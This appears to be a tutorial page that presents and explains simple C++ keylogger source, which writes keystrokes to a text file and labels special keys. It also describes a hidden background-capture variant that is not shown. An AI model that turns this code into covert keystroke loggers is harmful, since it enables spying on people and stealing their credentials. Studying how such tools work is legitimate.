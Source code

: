 **Keylogger Example Code in C++**
This code is a basic example of a keylogger that captures keystrokes and logs them into a text file. Here's a step-by-step explanation of what the code does:

1. Libraries Used:
windows.h: Provides access to Windows API functions (e.g., handling windows, processes, etc.).
iostream: For input and output operations, specifically to print to the console.
fstream: For file input and output (used to write captured keys to a file).
conio.h: Used for console input/output, specifically for functions like getch() to capture keypresses.
2. Function to Log Keys:
The function keys() is responsible for capturing and logging keystrokes into a file.


int keys(char key, fstream& file) {
  file.open("key_file.txt", ios::app | ios::in | ios::out);
  if (file) {
    // Check if a special key was pressed
    if (GetAsyncKeyState(VK_SHIFT)) {
      file << "[SHIFT]";
    }
    else if (GetAsyncKeyState(VK_ESCAPE)) {
      file << "[ESCAPE]";
    }
    else if (GetAsyncKeyState(VK_RETURN)) {
      file << "[ENTER]";
    }
    else if (GetAsyncKeyState(VK_CONTROL)) {
      file << "[CONTROL]";
    }
    else if (GetAsyncKeyState(VK_MENU)) {
      file << "[ALT]";
    }
    else if (GetAsyncKeyState(VK_DELETE)) {
      file << "[DELETE]";
    }
    else if (GetAsyncKeyState(VK_TAB)) {
      file << "[TAB]";
    }
    else if (GetAsyncKeyState(VK_BACK)) {
      file << "[BACKSPACE]";
    }
    else {
      file << key; // Regular key
    }
  }
  file.close();
  return 0;
}
This function checks if any special key (like Shift, Ctrl, Alt, Enter, etc.) is pressed. If a special key is pressed, it logs the name of that key in the file. Otherwise, it logs the regular character of the key.

3. Main Function:
The main function sets up an infinite loop to capture keystrokes.

int main() {
  char key_press;
  int ascii_value;
  fstream afile;

  afile.open("key_file.txt", ios::in | ios::out);
  afile.close();

  while (true) {
    key_press = getch();  // Capture key press
    ascii_value = key_press;
    cout << "Key pressed: " << key_press << endl;  // Print pressed key
    if (ascii_value > 7 && ascii_value < 256) {
      keys(key_press, afile);  // Log key to file
    }
  }
  return 0;
}
getch(): Captures each keystroke from the user in real-time.
keys(): Calls the keys() function to log the captured key to a file named key_file.txt.
4. Key Points:
The code uses getch() to capture keys one by one.
It logs the keys to a file (key_file.txt).
Special keys like Shift, Enter, Tab, etc., are identified and logged as [SHIFT], [ENTER], etc.
5. Alternative Approach (Uncommented Block):
Another way to capture keystrokes in the background (without showing a console window) is to use GetAsyncKeyState(), which checks the state of each key asynchronously. The code for this method is provided but commented out in the example.

Important Notes:
Ethical Considerations: This type of program is typically used for malicious purposes like keylogging, and writing or using such software without the explicit consent of the user is illegal and unethical.



